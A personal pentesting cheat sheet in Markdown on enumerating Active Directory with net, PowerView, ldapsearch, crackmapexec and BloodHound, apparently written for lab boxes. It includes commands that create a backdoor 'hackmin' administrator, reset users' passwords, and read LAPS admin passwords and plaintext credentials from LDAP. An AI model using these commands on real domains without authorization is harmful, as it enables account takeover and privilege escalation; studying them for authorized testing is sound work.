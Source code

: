 # AD Enumeration

## Enum in CMD

use net to enumerate eg. users, groups and so on:
```
net user ${user} /domain
```

```
net user /domain
```

```
net groups /domain
```
or the password policy for the domain: `net accounts /domain`

Add yourself to a group with:
```
net group "${GROUP}" ${USER} /add /domain
```

Change password of `$USER`:
```
net user ${USER} Password123! /domain
```

```
net user /add hackmin Password123
```

```
net localgroup administrators hackmin /add
```



Has to be done from a domain-joined machine though, and it does not necessarily show the full output.


Enumerating SMB shares from the DC can be done with:

```
net view \\dc01 /all
```

## Enum in Powershell

Remember to use tools such as crackmapexec to check if a given user's credentials can be used for smb/rdp access to different machines!

### Manual Powershell enum

See [AD-Querier.ps1](./../../../payloads-n-scripts/scripts/AD-Querier.ps1).
When this script is imported, it can be used to make queries of the form:

```powershell
$user = LDAPSearch -Query "(&(objectCategory=user)(cn=*${USER_NAME}*))"
```
or
```powershell
$group = LDAPSearch -Query "(&(objectCategory=group)(cn=*${GROUP_NAME}*))"
```
```powershell
$group = LDAPSearch -Query "(objectCategory=computers)"
```

````powershell
$group = LDAPSearch -Query "(distinguishedname=${DISTINGUISHED_NAME_OF_OBJECT})"
`````


Manual lookup of hostname with:

```
Resolve-DnsName -Name ${IP}
```

### Automation tools

#### RSAT (Requires local admin)

AD-RSAT tooling gives us a lot of options.
Install it by running:

```
Install-WindowsFeature -Name "RSAT-AD-PowerShell" -IncludeAllSubFeature
```

from an admin powershell.

Similar to the `net` tool, powershell has cmdlets like `GetADUser`, `Get-ADGroup` or more generically, `GetAD-Object` 
A good flag to use is `-Properties` with these, which takes a comma-separated list, or wildcards `*`


#### Enum and much else: PowerSploit

[PowerView](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)

Examples of commands:

* `Get-NetUser ${USER_NAME}` (can be used with the flag -SPN to find service principals (service accounts)).
* `Get-NetGroup ${GROUP}`
* `Get-NetComputer`
* `Get-NetComputer | Select name,operatingsystem,operatingsystemversion`
* `Find-LocalAdminAccess` (Finds computers in the domain in which current user is local admin).
* `Get-NetSession -ComputerName ${COMPUTER_NAME} -Verbose` (`-Verbose` to let us know if we simply don't have privileges to make the call).

TL;DR regarding finding active sessions for users: `Get-NetSession` will not work by default on Windows 11.
If that is the case, it may be worth trying the `PSLoggedOn`-tool for this purpose:
```
PSLoggedOn.exe \\${COMPUTER_NAME}
```
Just keep in mind that a blank output here can also just mean that the pre-reqs for the tool are simply not met, as it uses Remote Registry,
which has been turned off by default since Windows 8.

##### ACLs and ACE Querying with PowerView

Interesting Acces Control Entries to look for:
```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

We can do searches such as

```
Get-ObjectAcl -Identity "${GROUP}" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier | ForEach-Object -Process {Convert-SidToName $_.SecurityIdentifier}
```
(Requires specific version of PowerView.ps1).

This gets everyone with the `GenericAll` permission on the group `$GROUP`.

## LDAP and LAPS

If autorecon reveals the AD being setup such that you can enumerate ldap without credentials, consider doing something like:

```
ldapsearch -x -H ldap://${RHOST}  -b "DC=${DOMAIN_NAME},DC=${DOMAIN_TLD}"
```


There have been boxes where doing this will reveal a plaintext password (e.g. in the description of a user).

Remember to use e.g. `grep -i pass` and `grep -i pw` on the results of these searches (`-i` for ignore case).

If you have valid credentials, enumeration can be done with that as well:

```
ldapsearch -x -H ldap://${RHOST} -D "${DOMAIN_NAME}\${DOMAIN_USER}" -w "${PW}"  -b "DC=${DOMAIN_NAME},DC=${DOMAIN_TLD}"
```

In one instance, a box had LAPS installed, allowing me to read the pw of an Admin user with:

```
ldapsearch -x -H ldap://${RHOST} -D "${DOMAIN_NAME}\${DOMAIN_USER}" -w "${PW}"  -b "DC=${DOMAIN_NAME},DC=${DOMAIN_TLD}" | grep AdmPwd
```

supposedly, this crackmapexec command dumps all users available through LAPS.
I was not able to get it to work with the previously mentioned box, though:

```
crackmapexec ldap ${RHOST} -u ${DOMAIN_USER} -p ${PW} --kdcHost ${RHOST} -M laps
```


## Bloodhound

[Bloodhound](https://github.com/BloodHoundAD/BloodHound) with Sharphound can also be used for a graph overview of the domain.
It has the drawback of being quite noisy though.


Transfer SharpHound.ps1 to the target, import it and run:

```
Invoke-BloodHound -CollectionMethod All -OutputDirectory . -OutputPrefix "$DOMAIN_NAME"
```

Note that I have had issues running this from an evil-winrm shell.
If you experience this, get a shell from powercat (or similar) and run it through there.

Take the resulting zip and dump it into bloodhound.
To run bloodhound do: 

```
sudo neo4j start
```
and in another terminal:

```
bloodhound --no-sandbox
```

### Useful Bloodhound Raw Queries

```
MATCH (m:Computer) RETURN m
```
```
MATCH (m:User) RETURN m
```
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```


